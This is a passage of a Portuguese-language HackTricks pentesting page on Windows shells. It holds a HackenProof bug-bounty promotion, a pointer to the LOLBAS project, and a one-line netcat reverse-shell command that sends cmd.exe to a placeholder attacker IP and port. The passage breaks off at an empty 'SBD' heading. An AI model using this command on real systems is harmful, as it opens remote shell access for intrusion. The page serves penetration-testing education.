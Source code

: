 # Shells - Windows

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**HackenProof é o lar de todas as recompensas por bugs de criptografia.**

**Seja recompensado sem atrasos**\
As recompensas do HackenProof são lançadas apenas quando os clientes depositam o orçamento de recompensa. Você receberá a recompensa após a verificação do bug.

**Adquira experiência em pentesting web3**\
Protocolos de blockchain e contratos inteligentes são a nova Internet! Domine a segurança web3 em seus dias de ascensão.

**Torne-se a lenda do hacker web3**\
Ganhe pontos de reputação com cada bug verificado e conquiste o topo do leaderboard semanal.

[**Cadastre-se no HackenProof**](https://hackenproof.com/register) comece a ganhar com seus hacks!

{% embed url="https://hackenproof.com/register" %}

## Lolbas

A página [lolbas-project.github.io](https://lolbas-project.github.io/) é para Windows assim como [https://gtfobins.github.io/](https://gtfobins.github.io/) é para linux.\
Obviamente, **não existem arquivos SUID ou privilégios sudo no Windows**, mas é útil saber **como** alguns **binários** podem ser (abusados) para realizar algum tipo de ação inesperada como **executar código arbitrário**.

## NC
```bash
nc.exe -e cmd.exe <Attacker_IP> <PORT>
```
## SBD
